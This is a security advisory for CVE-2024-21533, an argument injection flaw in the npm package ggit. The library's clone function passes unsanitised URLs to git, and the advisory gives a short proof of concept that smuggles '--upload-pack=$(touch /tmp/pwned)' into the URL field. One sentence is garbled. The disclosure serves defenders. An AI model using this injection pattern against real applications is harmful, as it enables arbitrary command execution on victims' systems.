 # CVE-2024-21533 Argument Injection vulnerability in ggit

`ggit` describes itself as:

```
Local promise-returning git command wrappers
```

Resources: 
 * Project's GitHub source code: https://github.com/bahmutov/ggit
 * Project's npm package: https://www.npmjs.com/package/ggit

Article write-up on this argument injection vulnerability: https://nodejs-security.com/blog/flawed-git-promises-library-on-npm-leads-to-command-injection-vulnerability

## Background on exploitation

I'm reporting an Argument Injection vulnerability in `ggit` npm package.

This vulnerability manifests with the library's `clone()` API,
which allows specifying the remote URL to clone and the file on disk to clone to.
However, the library does not sanitize for user input or validate a given URL scheme,
nor does it properly pass command-line flags to the `git` binary using the double-dash
POSIX characters (`--`) to communicate the end of options.

Thus, allowing users to exploit an argument injection vulnerability in Git due to the
`--upload-pack` command-line option that results with executing arbirary commands.
(`outPath`) to clone it to then the vulnerability applies.

## Exploit

1. Install `ggit@2.4.12` or earlier
2. Establish the following POC:

```js
const clone = require("ggit").cloneRepo;
clone({
  url: "--upload-pack=$(touch /tmp/pwned)",
  folder: "/tmp/dbd",
}).then(function () {
  console.log("cloned repo to destination folder");
});
```

3. Observe new file created on disk at `/tmp/pwned`

# Author

Liran Tal
